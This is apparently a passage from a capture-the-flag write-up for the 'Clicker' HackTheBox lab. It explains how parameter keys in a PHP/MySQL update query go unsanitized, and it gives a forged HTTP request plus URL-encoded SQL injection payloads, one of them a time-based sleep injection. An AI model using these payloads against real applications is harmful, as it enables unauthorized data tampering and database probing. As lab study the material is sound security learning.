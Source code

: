 As the code says, we cannot change our role in the db, it would have be too easy.
Instead, `clicks` and `levels` are easily accepted and we can ""hack"" the game injecting fake points

```http
GET /save_game.php?clicks=2020&level=2 HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4nphpuhuujo7bc4eg2kf477l8a
Connection: close
```

Before to proceed we can check what kind of db we're facing and from `db_utils.php` we notice that it's mysql.

```php
$mysqli = new mysqli($db_server, $db_username, $db_password, $db_name);
$pdo = new PDO("mysql:dbname=$db_name;host=$db_server", $db_username, $db_password);
```

Let's get back to our `save_profile` function.

The statements are prepared as always but if you look carefully, `$setStr` is not sanitized when passed to the query.

However we have to specify that values are parsed using `$pdo->quote($value)` which is basically safe. So the only injectable part of the query is the `key` of the dictionary, and not values! Howerver, in order to make a valid query we will look carefully to values too.

To understand better what happens when we try to inject to a key instad of a value in a get request I created a script called `2_virgula_vs_update_vulnerable_statement.php`.

You can run it in local.


Joking with mysql syntax on emulators online (or you can install via docker an instance very quicly) i found some working tricks in an update statement.

Remember again, that we're injected key, let's urlencode everything


```
%75%73%65%72%6e%61%6d%65%3d%28%73%65%6c%65%63%74%28%73%6c%65%65%70%28%33%29%29%29%2c%63%6c%69%63%6b%73=20
username=(select(sleep(3))),clicks=20

Result: UPDATE players SET username=(select(sleep(3))),clicks=20 WHERE username = $player

%63%6c%69%63%6b%73%3d%32%30%2c%63%6c%69%63%6b%73=20
clicks=20,level=20

Result: UPDATE players SET username=clicks=20,level=20 WHERE username = $player
```
